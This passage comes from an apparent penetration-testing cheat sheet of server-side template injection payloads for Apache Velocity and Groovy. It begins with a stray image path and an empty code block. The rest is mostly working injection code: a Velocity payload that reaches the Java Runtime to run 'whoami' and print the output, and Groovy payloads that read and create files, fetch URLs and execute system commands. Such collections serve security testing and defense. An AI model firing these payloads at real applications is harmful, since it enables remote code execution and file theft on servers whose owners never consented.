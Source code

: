 ```java
```

---

## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)

> Velocity is a Java-based template engine. It permits web page designers to reference methods defined in Java code.

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to https://groovy-lang.org/syntax.html , but `${9*9}` is the basic injection.

### Groovy - Read File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP Request

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```
